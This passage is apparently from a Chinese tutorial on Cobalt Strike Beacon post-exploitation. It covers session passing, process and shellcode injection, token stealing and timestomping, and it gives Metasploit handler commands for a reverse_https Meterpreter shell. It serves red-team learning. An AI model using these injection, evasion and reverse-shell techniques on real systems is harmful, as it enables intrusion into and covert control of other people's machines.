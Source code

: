 ```shell
    spawnas                   Spawn a session as another user
    spawnto                   Set executable to spawn processes into
    spawnu                    Spawn a session under another process
    spunnel                   Spawn and tunnel an agent via rportfwd
    spunnel_local             Spawn and tunnel an agent via Cobalt Strike client rportfwd
    ssh                       Use SSH to spawn an SSH session on a host
    ssh-key                   Use SSH to spawn an SSH session on a host
    steal_token               Steal access token from a process
    syscall-method            Change or query the syscall method
    timestomp                 Apply timestamps from one file to another
    token-store               Hot-swappable access tokens
    unlink                    Disconnect from parent Beacon
    upload                    Upload a file
    windows_error_code        Show the Windows error code for a Windows error code number
```

### session传递

**会话传递相关命令**

Beacon 被设计的最初目的就是向其他的 CS 监听器传递会话。

- `spawn`：进行会话的传递，也可直接右击会话选择`spawn`命令进行会话的选择。默认情况下，`spawn`命令会在 rundll32.exe 中派生一个会话。为了更好的隐蔽性，可以找到更合适的程序（如 Internet Explorer） 并使用`spawnto`命令来说明在派生新会话时候会使用 Beacon 中的哪个程序。
- `spawnto`：该命令会要求指明架构（x86 还是 x64）和用于派生会话的程序的完整路径。单独输入`spawnto`命令然后按 enter 会指示 Beacon 恢复至其默认行为。
- `inject`：输入`inject + 进程 id + 监听器名`来把一个会话注入一个特定的进程中。使用 ps 命令来获取一个当前系统上的进程列表。使用`inject [pid] x64`来将一个64位 Beacon 注入到一个 64位进程中。
- `spawn`和`inject`命令都将一个 payload stage 注入进内存中。如果 payload stage 是 HTTP、HTTPS 或 DNS Beacon 并且它无法连接到你，那么将看不到一个会话。如果 payload stage 是一个绑定的 TCP 或 SMB 的 Beacon，这些命令会自动地尝试连接到并控制这些 payload。
- `dllinject`：`dllinject + [pid]`来将一个反射性 DLL 注入到一个进程中。
- `shinject`：使用`shinject [pid] [架构] [/路径/.../file.bin]`命令来从一个本地文件中注入 shellcode 到一个目标上的进程中。
- `shspawn`：使用`shspawn [架构] [/路径/.../file.bin]`命令会先派生一个新进程（这个新进程是 spawn to 命令指定的可执行文件），然后把指定的 shellcode 文件（ file.bin ）注入到这个进程中。
- `dllload`：使用`dllload [pid] [c:\路径\...\file.dll]`来在另一个进程中加载磁盘上的 DLL文件。

**会话传递使用场景**

1、将当前会话传递至其他CS团队服务器中，直接右击`spawn`选择要传递的监听器即可。

2、将当前会话传递至MSF中，这里简单做一下演示。

首先，在MSF中，为攻击载荷新建一个payload

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 192.168.175.156
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > exploit -j
```

随后，在CS中新建一个外部`Foreign`监听器，这里设置的监听IP与端口和MSF中的一致即可，随后在CS中利用`spawn`选择刚新建的外部监听器，MSF中即可返回会话。

### File System
